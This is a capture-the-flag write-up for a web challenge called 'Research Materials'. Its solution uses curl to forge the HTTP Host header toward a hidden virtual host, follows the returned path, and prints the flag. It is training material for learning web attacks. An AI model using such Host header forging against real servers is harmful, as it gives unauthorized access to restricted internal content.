 # Research Materials

**Challenge Type: HTTP Host Header Manipulation**
**Challenge Status: Unsolved**

## Challenge

You want to get the research materials and find out which part of the development goes wrong. The research materials are hidden in the system topsecret.vaccine.dev. How do you get it?  
**Note: All 403s for this challenge are intended. We've tested it.**  
http://research.nypinfsecctf.tk/

## Solution

1. Manipulate the `Host` header
```bash
$ curl --header "Host: topsecret.vaccine.dev" http://research.nypinfsecctf.tk/

/f/Evommgb5azlyCaYMDHW57Q
```

2. Follow the link
```bash
$ curl http://research.nypinfsecctf.tk/f/Evommgb5azlyCaYMDHW57Q

NYP{h0st_h3ad3r_f0rg1ng}
```
